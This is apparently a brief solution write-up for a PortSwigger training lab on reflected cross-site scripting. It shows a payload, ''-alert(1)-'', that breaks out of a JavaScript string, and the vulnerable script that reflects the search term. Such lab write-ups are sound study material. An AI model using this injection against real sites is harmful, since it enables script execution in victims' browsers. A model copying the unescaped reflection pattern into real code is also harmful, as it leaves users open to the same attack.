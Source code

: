 # Portswigger - Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

## Description
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

## Solution
* send payload to search box observe that angle brackets are encoded, so "<>" will not trigger popup
* Payload
```html
'-alert(1)-'
```

## vulnerable code
```javascript
<script>
    var searchTerms = ''-alert(1)-'';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>   
```